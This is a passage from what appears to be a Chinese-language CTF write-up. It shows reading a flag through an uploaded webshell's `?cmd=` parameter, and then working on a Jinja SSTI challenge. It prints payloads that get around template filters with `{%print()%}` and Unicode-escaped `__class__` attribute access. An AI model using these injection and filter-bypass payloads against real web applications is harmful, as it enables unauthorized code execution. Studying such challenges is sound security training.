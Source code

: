 ```php
    app.run(host='0.0.0.0', port=5000, debug=True)
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737870898831-574cdb4b-4bda-409b-986b-e681fd51aee8.png)

上传成功后 输入命令执行语句

```php
?cmd=ls /
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737870944436-24373b01-f4a0-45d8-aeec-249a238e0ac5.png)

发现flag 接着读取flag

```php
?cmd=cat /flag
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737870999881-c22186c2-8c9b-44ae-8b45-ce06b6025c8b.png)

接着得到flag

## [安洵杯 2020]Normal SSTI
打开靶机题目提示前往test目录

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737873325031-7c869d34-a447-4703-a4b6-8baaeec3aaab.png)

前往test目录后发生页面跳转 根据题目提示存在ssti注入 并且存在过滤

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737873471711-8c30d8e4-a79e-482a-a7a8-1cbd8046c486.png)

先尝试输入

```php
?url={{2*2}}
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737873768083-1a82c425-5c96-4a2a-95fb-022bc37407b0.png)

发现{{}}可能被过滤了 利用{%print()%}替代 接着

```php
?url={%print(''.__class__)%}
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737873889661-f54597d7-dbfa-43a3-99dc-c031e1b55152.png)

接着还是被过滤 于是尝试用Unicode编码绕过

```php
?url={%print(()|attr(%22\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f%22))%}
等价于
?url={{''.__class__}}
```

发现得到回显
